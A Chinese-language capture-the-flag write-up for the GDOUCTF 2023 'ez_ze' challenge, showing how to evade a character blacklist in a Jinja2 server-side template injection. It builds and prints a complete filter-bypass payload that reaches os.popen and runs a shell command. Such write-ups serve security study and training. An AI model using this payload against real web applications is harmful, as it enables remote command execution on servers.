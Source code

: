 #SSTI

[[GDOUCTF 2023]ez_ze - bl0ck - 博客园 (cnblogs.com)](https://www.cnblogs.com/bl0ck/articles/17595237.html)

被过滤：`{{` `}}` `popen` `_` `[` `]` `os` `getitem` `.` `"`
按照链接里的解法

payload 原型

```python
{{lipsum|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('cat /flag')|attr('read')()}}
```

先获取下划线和空格

```python
{% print(lipsum|string|list) %}
```

第十九个是下划线,这里要用 pop 来获取下划线。

```python
{% set pop=dict(pop=1)|join %}
{% set xhx=(lipsum|string|list)|attr(pop)(18) %}
{% set kong=(lipsum|string|list)|attr(pop)(9) %}
```

获取反斜线，**lipsum**里面没有斜杠，在**config**里面发现有斜杠有点多可以写可脚本遍历一下

第 239 个是斜杠

```python
{% set pop=dict(pop=1)|join %}
{% set re=(config|string|list)|attr(pop)(239) %}
```

然后是获取 `__globals__`

```python
{% set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join %}
```

用同样的方式获取 `__getitem__`

```python
{% set geti=(xhx,xhx,dict(get=a,item=b)|join,xhx,xhx)|join %}
```

其他的就是依葫芦画瓢。

完整的 payload 就是

```python
{% set pop=dict(pop=1)|join %}
{% set kong=(lipsum|string|list)|attr(pop)(9) %}
{% set xhx=(lipsum|string|list)|attr(pop)(18) %}
{% set re=(config|string|list)|attr(pop)(239) %}
{% set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join %}
{% set geti=(xhx,xhx,dict(get=a,item=b)|join,xhx,xhx)|join %}
{% set o=dict(o=a,s=b)|join %}
{% set po=dict(pop=a,en=b)|join %}
{% set cmd=(dict(cat=a)|join,kong,re,dict(flag=a)|join)|join %}
{% set read=dict(read=a)|join %}
{% print(lipsum|attr(globals)|attr(geti)(o)|attr(po)(cmd)|attr(read)()) %}
```
